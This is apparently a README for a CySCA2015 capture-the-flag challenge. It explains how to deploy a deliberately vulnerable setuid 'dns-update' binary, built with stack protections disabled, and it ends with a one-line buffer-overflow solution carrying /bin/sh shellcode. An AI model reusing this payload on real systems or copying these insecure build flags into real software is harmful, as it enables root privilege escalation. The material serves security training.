 This folder contains files used to deploy on the dns server of the corp challenge in CySCA2015.

# Packages to install
* DNS with bind should be setup in advance.

# Files
* cysca_chall7.c - Source for the DNS Setuid program that is on the server and will allow users to privilege escalate.
* dns-update - Stripped compiled version of dns-update to be used on the server. Solution works against this file.

# Install Instructions
1. Compile cysca_chall7.c with `gcc cysca_chall7.c -m32 -fno-stack-protector -z execstack -no-pie -o dns-update`
2. Strip debug info with `strip dns-update`
3. Copy `dns-update` to `/usr/sbin/dns-update` on the dns server
4. Ensure the dns-update file is owned by `root:root`
5. Add suid permissions and r for users for the binary `chmod 4755 /usr/sbin/dns-update`
6. Add some fake bash history to point users in the direction of the suid binary

# Solution
```bash
./dns-update ecwi.cysca test 1.1.1.`python -c 'print "\x90"*38+"\xeb\x89\x04\x08"+"\x90\x66\x81\xc4\xff\x01\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x30\x04\xdb\xcd\x80"'`
```
